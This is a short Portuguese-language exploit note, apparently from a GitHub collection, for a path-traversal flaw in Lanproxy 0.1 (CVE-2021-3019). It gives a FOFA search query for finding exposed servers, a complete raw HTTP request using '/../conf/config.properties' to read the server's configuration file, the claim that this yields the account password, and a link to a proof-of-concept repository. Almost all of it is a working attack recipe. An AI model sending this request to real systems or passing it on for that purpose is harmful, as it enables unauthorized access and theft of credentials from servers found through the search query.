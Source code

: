 <languages  />

Impacto de vulnerabilidade
--------------------------

    Lanproxy 0.1

FOFA
----

    header= "Server: LPS-0.1"

Envie a seguinte solicitação:

    GET /../conf/config.properties HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

Leia com sucesso a senha da conta no arquivo de configuração.

POC
---

<https://github.com/FanqXu/CVE-2021-3019/>